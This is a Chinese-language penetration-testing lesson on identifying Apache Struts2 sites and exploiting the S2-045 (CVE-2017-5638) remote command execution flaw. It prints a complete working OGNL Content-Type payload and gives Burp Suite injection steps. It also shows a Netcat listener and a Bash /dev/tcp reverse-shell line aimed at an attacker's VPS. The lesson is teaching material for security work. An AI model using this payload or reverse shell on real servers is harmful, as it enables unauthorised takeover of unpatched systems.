# 网络安全教程：P48：47.Struts2相关介绍

## 概述
在本节课中，我们将要学习Struts2框架的识别方法，以及如何利用其S2-045远程命令执行漏洞。课程内容包括识别Struts2网站、使用工具扫描漏洞、分析漏洞原理，并最终演示如何执行系统命令和建立反向Shell连接。

---



## Struts2框架识别方法



上一节我们介绍了Struts2的基本概念，本节中我们来看看如何识别一个网站是否使用了Struts2框架。

识别Struts2框架主要有两种方法。



### 方法一：通过URL后缀判断
以下是常见的Struts2 URL后缀特征：
*   `.action`
*   `.do`



当你在浏览或访问网站时，如果发现URL以 `.action` 或 `.do` 结尾，就可以初步判断该网站可能使用了Struts2框架。此时，可以尝试测试其是否存在Struts2相关漏洞。






### 方法二：通过Web Console页面判断
第二种方法是尝试访问Struts2的Web Console调试页面。这个页面是官方为开发人员提供的调试功能，仅在开发模式下启用。


判断方法很简单：直接尝试访问目标网站的 `/struts/webconsole.html` 路径。如果该页面存在，则可以确定网站使用了Struts2框架，并且开启了开发模式（`devMode`）。






---



## 漏洞扫描与利用

当我们识别出目标使用了Struts2框架后，下一步就是对其进行漏洞扫描。

这里可以使用专门的漏洞扫描工具。该工具内置了Struts2各个版本的漏洞检测模块，能够高效地发现潜在的安全问题。


运行工具，将目标URL输入进去进行扫描。如果目标存在漏洞，工具会列出具体的漏洞编号，例如S2-045。


扫描到漏洞只是第一步，我们还需要对其进行利用，验证漏洞的真实危害。



---

## S2-045漏洞详解

上一节我们扫描到了漏洞，本节中我们重点分析一下S2-045漏洞。

S2-045是一个由安全研究员发现的远程命令执行漏洞，其CVE编号为CVE-2017-5638。受影响的Struts2版本范围是2.3.5到2.3.31，以及2.5到2.5.10。



**漏洞原理**：当网站使用基于Jakarta插件的文件上传功能时，攻击者可以通过修改HTTP请求头中的 `Content-Type` 字段，注入恶意代码，从而在服务器上执行任意系统命令。这种漏洞危害极大，可能导致服务器被完全控制。

---





## 漏洞利用：执行系统命令



识别并确认漏洞后，我们来看看如何利用它。利用过程通常分为两步：首先执行系统命令，然后尝试反弹Shell以获取持久控制权。

我们先讲解如何执行命令。



1.  **开启代理并抓包**：首先，开启Burp Suite等代理工具，并设置浏览器通过代理访问网络。
2.  **触发上传功能**：访问目标网站的文件上传点，选择任意文件（例如一个图片文件）进行上传。
3.  **拦截并修改请求**：在点击上传时，Burp Suite会拦截到HTTP请求包。将这个请求包发送到Repeater模块以便修改。
4.  **注入恶意载荷**：在Repeater中，找到 `Content-Type` 字段。将其内容替换为包含系统命令的恶意Payload。例如，执行 `whoami` 命令的Payload格式大致如下：
    ```http
    Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
    ```
5.  **发送请求并查看结果**：修改完成后，发送请求。如果漏洞存在，服务器会执行命令，并在HTTP响应中返回命令执行的结果（例如当前用户名）。






通过修改Payload中的命令，可以执行其他指令，如 `id`、`ls -l` 等，来探测服务器信息。



---

## 漏洞利用：建立反向Shell

单纯执行命令有时并不够。在渗透测试中，我们往往需要获得一个交互式的Shell会话，以便进行更深入的操作，例如向内网横向移动。



这时就需要用到**反向Shell**。反向Shell是指由被控端主动向控制端发起连接，并将其命令行输入输出转到控制端的技术。

**为什么需要反向Shell？**
*   **防火墙限制**：目标服务器可能只开放了少数端口（如80、443），无法从外部直接连接其新开的端口。
*   **端口冲突**：目标服务器上所需端口可能已被占用。
*   **NAT/内网环境**：如果目标服务器处于内网，没有公网IP，从外网无法直接访问它。



**反向Shell流程**：
1.  攻击者在自己的公网服务器（VPS）上监听一个端口。
2.  利用漏洞，在目标服务器上执行命令，让目标服务器主动连接到攻击者VPS的监听端口。
3.  连接建立后，攻击者就获得了目标服务器的一个Shell。



**正向连接 vs 反向连接**：
*   **正向连接**：攻击者主动连接目标IP和端口。例如：访问网站（HTTP）、远程桌面（RDP）、SSH连接。
    
*   **反向连接**：目标服务器主动连接攻击者指定的IP和端口。常用于绕过防火墙和NAT设备。
    



**建立反向Shell的步骤**：
1.  **准备监听**：在攻击者的公网VPS上，使用Netcat等工具监听一个端口。
    ```bash
    nc -lvnp 4444
    ```
2.  **生成反向Shell命令**：生成一个连接到VPS的反向Shell命令。例如，使用Bash反弹：
    ```bash
    bash -i >& /dev/tcp/[你的VPS_IP]/4444 0>&1
    ```
3.  **编码并注入**：将上述反向Shell命令进行编码（如Base64），然后构造到Struts2的漏洞利用Payload中，替换之前 `whoami` 命令的位置。
4.  **执行Payload**：像之前执行命令一样，将修改后的Payload通过漏洞发送给目标服务器。
5.  **获得Shell**：如果成功，在VPS的Netcat监听窗口就会获得目标服务器的一个交互式Shell。








---



## 总结
本节课中我们一起学习了Struts2框架的安全实践。我们从如何通过URL后缀和调试页面识别Struts2网站开始，接着介绍了使用工具扫描S2-045等高危漏洞。然后，我们深入分析了S2-045漏洞的原理，并详细演示了利用该漏洞执行系统命令和建立反向Shell连接的全过程。理解这些步骤对于认识Web应用安全风险和进行渗透测试至关重要。